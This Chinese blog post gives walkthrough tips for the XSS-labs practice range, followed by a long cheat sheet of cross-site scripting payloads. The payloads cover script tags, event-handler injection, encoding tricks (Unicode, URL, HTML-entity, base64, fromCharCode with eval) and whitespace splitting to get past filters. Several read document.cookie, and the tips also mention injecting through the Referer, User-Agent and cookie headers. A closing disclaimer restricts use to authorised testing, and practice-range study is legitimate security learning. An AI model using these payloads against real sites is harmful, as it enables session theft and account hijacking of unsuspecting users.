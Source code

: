 ```yaml
---
layout:     post
title:      XSS
subtitle:   教程
date:       2024-10-27
author:     白泽
header-img: img/post-bg-tree.jpg
catalog: true
tags:
    - XSS
    - 靶场
    - 教程
---
```


# XSS-labs通关技巧

1. `GET 参数连接<script>alert()</script>`
2. `根据源代码闭合标签 <'""'>`
3. `onlick=alert() `
4. ` onfocus=javascript:alert() onfoucus=alert(0) `  
5. `<>`-str_replace
6. `大小写`-strtolower
7. `Unicode编码`
8. `a href=javascript:alert()`
9. `双写`
10. `img scr= onerror=alert()>  img scr=  onmouseover=alert()> img src= onmouseout=alert()> `
11. 以下为隐藏传参
12. `隐藏输入框`
13. `修改referer头`
14. `修改User-Agen`
15. `修改cookie`
16. `嵌入网站，触发xss`
17. `ng-include:'level1.php'`
18. `%0a与%0b`-空格绕过
19. `<iframe src="javascript:alert(1)"></iframe>`
20. `exif xss`使用图片马
21. `embed`拼接加绕过
22. `//`注释

## 总结

1. `htmlspecialchars`将预定义的字符数转义为HTML实体，详细为`&` ` ""` `'` `<` `>`**注意单引号不转义**

2. `javascript:alert()`使用JAVA的伪协议

3. `strtolower`大小写

4. `str_replace`替换

5. `ng-include`指令用于包含外部的 HTML 文件。包含的内容将作为指定元素的子节点。

   `ng-include`属性的值可以是一个表达式，返回一个文件名。

   默认情况下，包含的文件需要包含在同一个域名下

```html
<script>alert(document.cookie)</script>
<script>prompt(document.cookie)</script>
<script>confirm(/xss/)</script>
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>       //Unicode码  还有十六进制 URL编码 JS编码 HTML实体编码等等
<script>alert/*dsa*/(1)</script>   //绕过黑名单
<script>(alert)(1)</script>        //绕过黑名单
<svg/onload=alert(1)>
<body onload=alert("XSS")>

<svg onload="alert(1)">       //过滤 script时
"><svg/onload=alert(1)//

<input value="1" autofocus onfocus=alert(1)  x="">   //过滤 script时

<a href="" onclick="alert(1111)">

<iframe src="javascript:alert(1)"></iframe>      //过滤 script时

<svg onmousemove="alert(1)">

<input name="name" value=”” onmousemove=prompt(document.cookie) >

<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>

<input type = "button"  value ="clickme" onclick="alert('click me')" />

<BODY onload="alert('XSS')">

<IMG SRC="" onerror="alert('XSS')">
<IMG SRC="" onerror="javascript:alert('XSS');">

制表符 绕过滤器的
<IMG SRC="" onerror="jav&#x9ascript:alert('XSS');">
1.<iframe src=javascript:alert(1)></iframe> //Tab
2.<iframe src=javascript:alert(1)></iframe> //回车
3.<iframe src=javascript:alert(1)></iframe> //换行
4.<iframe src=javascript:alert(1)></iframe> //编码冒号
5.<iframe src=javascript:alert(1)></iframe> //HTML5 新增的实体命名编码，IE6、7下不支持
<a href=javascript:\u0061\u006C\u0065\u0072\u0074(1)>Click</a>
<a href=javascript:%5c%75%30%30%36%31%5c%75%30%30%36%43%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(1)>Click</a>
<a href=javascript:%5c%75%30%30%36%31%5c%75%30%30%36%43%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(1)>Click</a>

<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWHNzVGVzdCIpOzwvc2NyaXB0Pg=="></object>

"><img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,59))">

<script>onerror=alert;throw document.cookie</script>
<script>{onerror=alert}throw 1337</script>         //过滤 单引号，双引号，小括号时   没过滤script

<a href="" onclick="alert(1111)">
' οnclick=alert(1111) '   //鼠标点击事件执行JavaScript语句

```

本文章声明：分享内容仅用于网安爱好者之间的技术讨论，禁止用于违法途径，所有渗透都需获取授权！否则需自行承担，作者不承担相应的后果
